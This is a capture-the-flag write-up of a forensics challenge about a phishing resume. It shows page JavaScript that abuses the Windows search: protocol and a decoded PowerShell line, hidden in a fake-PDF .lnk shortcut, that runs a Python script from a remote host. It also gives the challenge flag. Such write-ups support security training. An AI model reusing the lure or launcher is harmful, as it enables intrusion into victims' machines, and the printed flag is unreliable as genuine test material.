

# A new Hire

**Creator:** ch4p

**Description:** The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

**Category:** Forensics

**Difficulty:** very easy

**File:** forensics_a_new_hire.zip

## Solution 

The file provided was an email message. Within it was a reference to resume hosted online: `storage.microsoftcloudservices.com:[PORT]/index.php`

Visiting the page revealed a blurred background with a "View Resume" button:


Viewing the page source revealed the following JavaScript tied to the resume button:
```javascript 

    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
  
```
This hinted at a file directory: `/3fe1690d955e8fd2a0b282501570e1f4/resumes/`

I accessed the path directly using curl: `curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/resumes/`

That returned a simple HTML directory listing: 
```HTML
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</title>
 </head>
 <body>
<h1>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</h1>
<ul><li><a href="/3fe1690d955e8fd2a0b282501570e1f4/"> Parent Directory</a></li>
<li><a href="Resume.pdf%20.lnk"> Resume.pdf .lnk</a></li>
</ul>
</body></html>

```

The file appeared to be a PDF, but was actually a Windows shortcut (.lnk) file.


Running strings on the .lnk file revealed embedded PowerShell code and a base64-encoded string:


Decoded, the base64 revealed:
```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:34413/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@34413\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@34413\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

This tells us:
- A browser is used to open resume_official.pdf
- Then a Python executable is run with a remote script `client.py`

Downloaded the files: 
```bash 
curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/python312/python.exe -o python.exe
curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py -o client.py
```

Opening `client.py` revealed another base64 encoded string: `SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==`


Decoded it to get the flag of `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`

